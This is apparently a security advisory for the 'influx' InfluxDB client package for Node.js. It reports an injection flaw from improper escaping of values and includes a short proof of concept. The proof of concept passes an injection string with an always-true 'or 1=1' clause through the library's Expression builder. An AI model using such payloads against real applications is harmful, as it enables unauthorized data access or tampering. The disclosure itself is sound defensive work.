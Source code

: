 # Overview

influx is an InfluxDB Client for Node.js and Browsers.

This package is vulnerable to SQL Injection (SQLi) due to improperly escaping value input.

## Proof of Concept

```
const influx = require('influx')
const exp = new influx.Expression();
exp.tag('symbol').equals.value("GAZP()\\' or 1=1 --").toString()
```
